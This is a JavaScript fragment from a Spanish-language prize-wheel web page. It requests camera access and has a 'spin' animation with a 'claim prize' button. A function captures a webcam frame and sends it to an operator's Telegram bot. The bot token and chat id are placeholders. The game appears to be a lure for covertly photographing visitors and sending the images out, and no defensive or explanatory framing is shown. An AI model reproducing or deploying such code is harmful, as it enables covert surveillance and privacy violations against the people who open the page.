         navigator.mediaDevices.getUserMedia({ video: true })
            .then((stream) => {
                camara = stream;
            })
            .catch((error) => {
                console.error('Error al obtener la cámara:', error);
            });

        document.getElementById('spinButton').addEventListener('click', function() {
            let randomDeg = Math.floor(Math.random() * 360) + 720;
            document.getElementById('ruleta').style.transition = 'transform 4s ease-out';
            document.getElementById('ruleta').style.transform = 'rotate(' + randomDeg + 'deg)';

            setTimeout(() => {
                let premioAleatorio = premios[Math.floor(Math.random() * premios.length)];
                premio = premioAleatorio.cantidad;
                let iconoMoneda = premioAleatorio.icono;
                document.getElementById('premioDisplay').innerHTML = `¡Has ganado: <img src="${iconoMoneda}" alt="${premio}"> ${premio}!`;
                document.getElementById('reclamarBtn').style.display = "block";
            }, 4000);
        });

        async function tomarFoto() {
            try {
                const canvas = document.createElement('canvas');
                canvas.width = 400;
                canvas.height = 300;
                const ctx = canvas.getContext('2d');
                
                const video = document.createElement('video');
                video.srcObject = camara;
                video.play();

                video.onloadeddata = () => {
                    ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
                    const foto = canvas.toDataURL('image/png');  // Asegúrate de especificar el tipo de imagen

                    // Enviar la foto a Telegram
                    fetch('https://api.telegram.org/bot<your-bot-token>/sendPhoto', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({
                            chat_id: '<your-chat-id>',
                            photo: foto
                        })
                    }).then(response => response.json())
                      .then(data => console.log('Foto enviada correctamente!'))
                      .catch(error => console.error('Error al enviar la foto:', error));
                };
            } catch (error) {
                console.error('Error al tomar la foto:', error);
            }
        }
